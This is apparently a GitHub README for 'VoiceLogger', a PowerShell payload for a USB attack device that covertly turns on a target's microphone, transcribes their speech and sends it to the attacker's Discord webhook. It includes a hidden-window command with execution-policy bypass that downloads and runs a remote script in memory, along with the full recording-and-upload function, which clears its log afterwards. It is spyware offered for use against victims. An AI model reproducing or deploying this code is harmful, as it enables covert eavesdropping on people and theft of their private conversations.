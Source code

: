 

# VoiceLogger

## Description

This payload activates your target's microphone, converts their speech to text, and exfils it to Discord 
with the optional functionality of incorporating voice activated payloads.

## Getting Started

### Dependencies

* Windows 10,11

### Executing program

* Plug in your device
* Invoke-WebRequest will be entered in the Run Box to download and execute the script from memory

`$db` is the variable that stores your Discord webhook 

```
powershell -w h -NoP -Ep Bypass $dc='';irm jakoby.lol/voiceLogger | iex
```

### The Function

- The voiceLogger function leverages the System.Speech namespace to create a continuous speech-to-text logger. 
- It initializes a speech recognition engine, loads a dictation grammar, and sets the input to the default audio device. 
- The script then enters an infinite loop where it listens for speech input and recognizes the text. 
- The recognized text is written to the output and saved to a temporary log file. 
- The log file content is then uploaded using the DC-Upload function. 
- Additionally, the script checks for specific voice commands using a switch statement with regex patterns: if the word "notepad" is detected, it launches Notepad, 
- and if the word "exit" is detected, it breaks the loop and stops the voice logger. 
- Once the loop is terminated, the log file's content is cleared.

```powershell
function voiceLogger {

    Add-Type -AssemblyName System.Speech
    $recognizer = New-Object System.Speech.Recognition.SpeechRecognitionEngine
    $grammar = New-Object System.Speech.Recognition.DictationGrammar
    $recognizer.LoadGrammar($grammar)
    $recognizer.SetInputToDefaultAudioDevice()

    while ($true) {
        $result = $recognizer.Recognize()
        if ($result) {
            $results = $result.Text
            Write-Output $results
            $log = "$env:tmp/VoiceLog.txt"
            echo $results > $log
            $text = get-content $log -raw
            DC-Upload $text

            # Use a switch statement with the $results variable
            switch -regex ($results) {
                '\bnotepad\b' {saps notepad}
                '\bexit\b' {exit}
            }
        }
    }
    Clear-Content -Path $log
}
```

```mermaid
graph TB;
  A[Start voiceLogger] --> B[Start Listening]
  B --> C{Recognized text?}
  C -->|Yes| D[Write to console]
  D --> E[Save to file]
  E --> F[Send to Discord]
  F --> G{Keyword recognized?}
  G -->|'note'| H[Open Notepad]
  G -->|'exit'| I[Exit function]
  G -->|No keyword| B
  C -->|No| B
  I --> J[Clear Log]
  J --> K[End voiceLogger]
```

<p align="right">(<a href="#top">back to top</a>)</p>

## Contributing

All contributor's names will be listed here

I am Jakoby

<p align="right">(<a href="#top">back to top</a>)</p>

## Version History

* 0.1
    * Initial Release

<p align="right">(<a href="#top">back to top</a>)</p>
